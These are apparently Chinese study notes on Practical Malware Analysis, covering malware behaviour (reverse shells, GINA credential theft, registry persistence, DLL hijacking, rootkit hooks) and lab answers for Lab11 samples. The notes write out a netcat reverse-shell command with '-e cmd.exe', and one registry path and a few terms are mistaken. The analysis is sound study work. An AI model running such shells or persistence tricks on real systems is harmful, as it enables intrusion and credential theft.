




# 恶意代码分析实战——恶意代码行为分析

声明：本文参考了《恶意代码分析实战》

熟悉恶意代码的功能有助于提取恶意代码的行为特征。

下面介绍了几种常见的恶意代码类型及其功能：
- Downloader
- Bootloader
- Backdoor
- LogginSnipper

## Downloader（下载器）和 Bootloader（启动器）

顾名思义，下载器从互联网上下载恶意代码到本地，并经过启动器安装和执行。下载器通常与某段漏洞利用程序（exploit）打包在一起，在漏洞利用成功后启动。Windows 下载器通常借助微软 Windows API 函数：URLDownloadtoFileA 和 WinExec，来下载并运行新的恶意代码。

## Backdoor（后门）

后门程序提供了非法访问远程主机的接口，后门可以包含很多组件，形成完整的渗透工具组合。后门程序通常会利用80等常用端口进行通信，起到掩人耳目的作用。

### 反向 shell

反向 shell 是从被感染主机发起的有较高执行权限的远程连接，它主动连接到攻击者电脑。

下面列举几个反向shell的例子：

#### netcat反向shell

例如：netcat可以使用命令```netcat -l -p 80```建立一个反向 shell，监听80端口的连接。而连接这个监听服务的命令为```netcat 服务器ip 80 -e cmd.exe```。

#### Windows反向shell

可以使用cmd.exe作为Windows系统中的反向shell，有两种简单实现：
- 基础方法
  - 创建一个套接字与远程主机相连，然后绑定这个套接字与cmd.exe标准流。
  - 使用CreateProcess函数用隐藏窗口方式创建cmd.exe，对被攻击者隐藏该进程。
- 多线程方法
  - 需要使用套接字、两个以上管道、两个以上线程。
  - 要用到CreateThread、CreatePipe

#### Remote Access Tool(RAT)

这类工具中比较有名的是Poison Ivy 。它是一个免费的远程访问工具。

#### Botnet（僵尸网络）

僵尸网络通常由单一实体控制，由成百上千的被控主机组成。主要用于发动DDoS攻击。Botnet与RAT相比规模更大。

## 登录凭证窃密器（LogginSnipper）

主要有3类：
- 监听用户登录过程的程序
- 转储Windows系统存放信息的程序
- 键盘记录程序

### GINA 拦截

在Windows XP中，恶意代码使用微软图形识别和验证界面（GINA)拦截技术来窃取用户的登录凭证。GINA设计的本意是为第三方程序提供一个访问用户登录的接口，实现 Windows 自定义登录，例如用RFID令牌或智能卡进行登录。但这一接口也能被恶意代码设计者所利用。

GINA在msgina.dll中实现，这个库将在用户登录系统过程中由Winlogon可执行文件加载。为了方便，Windows 使用注册表项```HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL```来存储需要Winlogon加载第三方DLL。恶意代码可以改变这个键值为自己的某个可记录信息的DLL，然后通过网络或其他方式把信息传出去。

恶意代码要使用GINA，通常要包含所有GINA的导出函数，约15个，前缀为Wlx。

相关细节可以参考：https://docs.microsoft.com/en-us/windows/win32/secauthn/winlogon-and-gina


### 口令哈希转储

系统口令通常经过Hash函数处理后存储在某个访问受限的文件里。口令哈希转储试图将这些口令的哈希值拷贝到文件或网络地址中。例如：pwdump工具、Pass-the-Hash（PSH）。这个工具中的导出函数是GetHash，攻击者可以改变这个函数的名字使之不易被发现。由于多数API都需要动态解析，所以我们常在逆向分析这类恶意代码时会看到GetProcAddress。

pwdump工具、Pass-the-Hash（PSH）工具包是提供口令哈希转储免费可用的软件包。因为它们开源，所以很多恶意代码都使用它的源码。pwdump是一个程序集合，它从安全账户管理器SAM中输出本地用户账户的LM和NTLM口令。pwdump通过注入DLL到本地安全认证子系统服务(LSASS)进程进行攻击。口令哈希转储工具通常针对lsass.exe进程，因为它拥有足够的权限来访问很多有用的API函数。

### 击键记录

击键记录是用于记录用户输入的工具。有多种击键记录器：
- 基于内ton核的，作为rootkit存在。
- 用户空间的记录器，使用windows api 并且通过 hook 或轮询实现。
  - Hook方法通常使用 SetWindowsHookEx 安装挂钩。
  - 轮询使用 Windows API 不断轮询按键状态，通常使用函数 GetAsyncKeyState 和 GetForegroundWindow。

#### 通过字符串列表识别击键记录器

可以通过查看恶意代码的导入API来识别击键记录器的功能。也可以检查标志字符串列表来识别击键记录器的功能，对于使用导入函数混淆技术或者使用你未见过的击键记录器功能的恶意代码来说，这种技术很有用。因为击键记录器需要记录所有按键，必须有一种打印PAGE DOWN按键的方法，同时它也必须能够访问这些字符串。从交叉引用向前回溯这些字符串是识别恶意代码中击键记录的一种方法。


## 存活机制

恶意代码一旦进入系统，必然希望能够长期驻留，这种行为被称为存活。如果存活机制比较特别，可以作为恶意代码的特征码。恶意代码常用的方法有：
- 修改系统注册表
- DLL加载顺序劫持

### 修改系统注册表

恶意代码常把自己的信息存放在```HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run```中，还有其他的可以自动启动的位置，微软的 Sysinternals 工具中有可以找出所有自动启动程序，而 Procmon 则能够发现动态变化的注册表项。

下面介绍几个其他的恶意代码常用的注册表项：
- ```AppInit_DLL```
- ```Winlogon```
- ```SvcHost DLL```

#### AppInit_DLL

恶意代码可以通过一个名叫```AppInit_DLL```的特殊注册表项来让他们的DLL获得加载。```AppInit_DLL```中的DLL程序会在进程加载User32.dll时被加载。注入DLL路径到注册表```AppInit_DLL```，会让DLL程序获得加载机会。```AppInit_DLL```的值存储在如下Windows注册表键中：```HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost```。

```AppInit_DLL```值的类型是REG_SZ，它由空格分隔的字符串组成。很多进程都会加载 User32.dll，这些进程也会加载```AppInit_DLL```。恶意代码编写者通常只针对一个单独进程，但是```AppInit_DLL```会被加载到多个进程中。因此，恶意代码必须执行攻击载荷前必须检查它运行在哪个进程中。这个检查通常在恶意代码的DllMain函数中完成。

#### Winlogon Notify

恶意代码编写者可以挂钩一个特殊的Winlogon事件，如登录、注销、关机以及锁屏等，甚至可以在安全模式下加载。下面注册表键中的注册表项包含Notify的值：```HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\```。

当 winlogon.exe 产生一个事件时，Windows系统会检查Notify注册表键来查找处理这个事件的DLL程序。

#### SvcHost DLL

Windows 所有服务都存于注册表中，如果一个服务的注册表键被移除，则这个服务将不能启动。恶意代码经常作为一个服务来安装，但更多时候是作为一个可执行文件运行。恶意代码作为 svchost.exe 的 DLL 来存活，可以使恶意代码隐藏于其他合法服务中。

Svchost.exe是从动态链接库中运行服务的通用主机进程，Windows操作系统通常同一时刻运行许多个svchost.exe实例。每个实例包含一组服务，这些服务能够使开发、测试以及服务管理变得简单。这些组被定义在下列注册表位置（每个值代表一个不同的组）：```HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost```

服务被定义在下列的注册表位置：
```HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ServiceName```

Windows 服务包含多个注册表值，其中多数提供关于服务的信息，例如 DisplayName 和 Description。恶意代码通常会使用令人混淆的名字。所有的 svchost.exe DLL包含有用 ServiceDLL 值的 Parameters 键，这是恶意代码设置恶意DLL程序的位置，Parameters 键下另一个值 Start 用来确定服务何时启动（通常设置为系统引导时启动）。

Windows 中有很多预先定义的服务组，为了保持隐蔽，恶意代码一般不会创建一个新的服务组，因为新创建的服务组很容易被探测。相反将自己加入一个已经存在的组或覆盖一个无关紧要的服务更为隐蔽，例如常用netsvcs服务组中很少用的服务。要识别这些需要监控注册表修改状况。


### Trojanized system binary files

特洛伊木马化的二进制系统文件是另外一种获得存活的方法。这个技术通过修改二进制的系统文件，将恶意代码注入其中。当被感染的二进制文件再次运行时，将会加载恶意代码。

恶意代码通常修改一个系统文件的函数入口点或其他不影响原功能的部分，令他跳转到恶意代码从而执行。为了不影响二进制文件的正常操作，恶意代码被加入到可执行文件的一个空节中。插入的代码通常用来加载恶意代码，加载恶意代码后，为了让DLL的操作于插入前的代码一致，代码会跳转到原始的DLL程序。

检查一个受感染系统时，常见于感染 rtutils.dll，它的hashcode会与原始未感染的不同。使用 IDA Pro 对比感染前后的文件，经常会发现它们的DLLEntryPoint函数不同。

### DLL加载顺序劫持

DLL 加载顺序劫持是一种简单隐藏技术，它不修改注册表或修改系统二进制文件，而是创建一个存活的、恶意的DLL程序。这时可以不用特定的加载器，因为可以令Windows直接加载它。

Windows加载DLL的顺序，可以参考：https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order

DLL 加载顺序劫持可以被/System32目录外的二进制文件利用，来加载/System32目录中未被KnownDLL保护的DLL程序。/System32目录之外的二进制文件都容易受到这种攻击，其中explorer.exe约有50个易受攻击的DLL。此外，由于DLL递归导入的原因，很多DLL会加载其他的DLL，而这些DLL按照默认顺序加载，因此KnownDLL机制也不能得到充分的保护。

## 提权

用户使用管理员用户执行程序，这对恶意代码来说是个好消息，这意味着它也有可能使用这个级别的权限。通常，恶意代码会利用漏洞进行提权攻击，多数可以在 Metasploit Framework 中找到。如果恶意 DLL所在目录是用户可写的，并且加载这个DLL的进程在一个高特权级上运行，那么恶意 DLL 就会获得提取。

### 使用 SeDebugPriSvilege

以用户权限运行的进程不能任意访问资源，也不能拥有这类权限。例如在远程进程中调用类似 TerminateProcess 和 CreateRemoteThread 函数。恶意代码获得这些权限的唯一方法是通过设置访问令牌的权限来开启 SeDebugPrivilege。在 Windows 系统中，访问令牌（Access Token）是一个包含安全描述符的对象。可以调用 AdjustTokenPrivileges 来调整访问令牌。

SeDebugPriSvilege 是一个系统级别调试的工具函数，但恶意代码可以用它来获得系统进程拥有的所有权限。默认情况下，SeDebugPriSvilege 只赋给本地管理员账户，可以认为赋予用户 SeDebugPriSvilege 权限就等于给予其本地管理员账户特权。

## 隐藏踪迹——用户态Rootkit

Rootkit有多种存在形式，但是大部分Rootkit通过修改操作系统内部的功能来工作。这种修改可以使恶意代码的文件、进程、网络连接以及其他资源对其他程序隐藏，这也使得反病毒产品、管理员以及安全分析人员难以发现它们的恶意活动。一些Rootkit会修改用户态的应用程序，但大部分会修改内核，因为保护机制(例如入侵防护系统)都运行在内核层。

下面介绍两类用户态rootkit.

### IAT Hook

这是一种典型的用户空间中的Rootkit，它隐藏本地系统中的文件、进程以及网络连接。这种挂钩方法修改导入地址表IAT或者导出地址表EAT。一个IAT Hook的例子如下图所示：



IAT Hook是一种过时且容易探测的挂钩方式，现代的rootkit大多采用更高级的 inline hook方式。

### Inline Hook

Inline Hook是通过覆盖导入DLL中API函数的代码来实现的，所以它必须等到DLL被加载后才能执行。IAT Hook只是修改了函数指针，而 Inline Hook 修改实际的函数代码。这样具备较强的隐蔽性。

因为很多防御程序都预设Inline Hook安装在函数的开始.所以一些恶意代码编写者己经尝试着插入跳转指令或者修改的代码到更远的位置，从而使得它们更加难以被发现。


## 实验

### 分析恶意代码 Lab11-01.exe

#### 这个恶意代码向磁盘释放了什么?

答案要点：

先使用IDA pro做静态分析，可知该程序中包含或引用了下列内容：
- 函数GetModuleFilenameA、GetLastActivePopup、GetActiveWindow、WriteFile、RegSetValueExA、LoadResource、FindResourceA、GetCommandLineA、GetCurrentProcess...
- msgina32.dll、kernel32.dll、advapi32.dll
- 注册表项：```SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon```
- 特殊字符串：TGAD、BINARY、GinaDLL

由此猜测该函数要劫持GINA，窃取登录凭证。由于涉及到资源的读取，所以可以用PEVIEW或PEexplore查看资源节，不难发现资源节".rsrc"中的“BINARY GINA"节。而且这部分二进制类似一个新的PE文件（可以将这个文件提取出来）。

进一步分析需要使用动态分析技术，可以先使用简单的监控软件procmon查看动态变化。可以发现下列重点信息：



查看该恶意代码所在目录，发现有个新增的 msgina32.dll 文件，这个文件与提取出的BINARY GINA内容完全一致（可通过hash验证）。

本题的答案为：在磁盘上释放了 msgina32.dll 文件。

#### 这个恶意代码如何进行驻留?

答案要点：

根据上题分析，这个文件建立了注册表，```SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\GinaDLL```，这使得Windowsxp在登陆时会加载GinaDLL，而这个键的内容为“C:\workspace\temp\msgina32.dll”。

在main函数中有两个函数调用需要注意，第一个是sub401080，这个函数大致是要将资源节“BINARY GINA"中的内容写到msgina32.dll 文件里；第二个是sub_401000，大致是完成注册表键```SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\GinaDLL```的建立。这个恶意代码可以认为是一个安装器。

#### 这个恶意代码如何窃取用户登录凭证?

答案要点：

分析重点改为已释放的msgina32.dll。使用字符串检查工具strings.exe，可以看到如下字符串：



其中的 ```UN %s DM %s PW %s OLD %s``` 和 ```msutil32.sys``` 值得关注，可能是某种输出格式和存储内容的文件名。msgina32.dll极可能在登录时即在用户登录信息，将其存放在msutil32.sys中。事实上我们重新登录系统就能验证这一点。



检查msgina32.dll的导出表，可以看到很多前缀为Wlx的函数，这些都是与GINA相关的函数，GINA拦截自然要使用它们。使用IDA pro分析这个dll，可以看到器DllMain的返回编码。

对本题的回答：恶意代码使用GINA拦截窃取用户登录口令，恶意代码msgina32.dll能够拦截所有提交到系统认证的用户登录信息。

#### 这个恶意代码对窃取的证书做了什么处理?

答案要点：窃取的口令被存放到c:\windows\system32\msutil32.sys中。用户名、域名、密码、时间戳都会被记录下来。

#### 如何在你的测试环境让这个恶意代码获得用户登录凭证?

答案要点：需要重启启动才能加载这个恶意代码释放的msgina32.dll。注意微软windows原版的gina操作DLL为：msgina.dll。

### 分析恶意代码Lab11-02.dll

假设一个名为Lab11-02.ini的可疑文件与这个恶意代码一同被发现.
问题
#### 这个恶意DLL导出了什么?
#### 使用rundll32.exe安装这个恶意代码后，发生了什么?
#### 为了使这个恶意代码正确安装，Lab11-02.ini必须放置在何处?
#### 这个安装的恶意代码如何驻留?
#### 这个恶意代码采用的用户态Rootkit技术是什么?
#### 挂钩代码做了什么?
#### 哪个或者哪些进程执行这个恶意攻击，为什么?
#### ini文件的意义是什么?
#### 你怎样用Wireshark动态抓获这个恶意代码的行为?

### 分析恶意代码Lab11-03.exe和Lab11-03.d11。

确保这两个文件在分析时位于同一个目录中。
问题
#### 使用基础的静态分析过程，你可以发现什么有趣的线索?
#### 当运行这个恶意代码时，发生了什么?
#### Labll-03.exe如何安装Lab 11-03.d11使其长期驻留?
#### 议个恶竟代码感染Windows系统的哪个SC件?
#### Lab11-03.d11做了什么?
#### 这个恶意代码将收集的数据存放在何处?
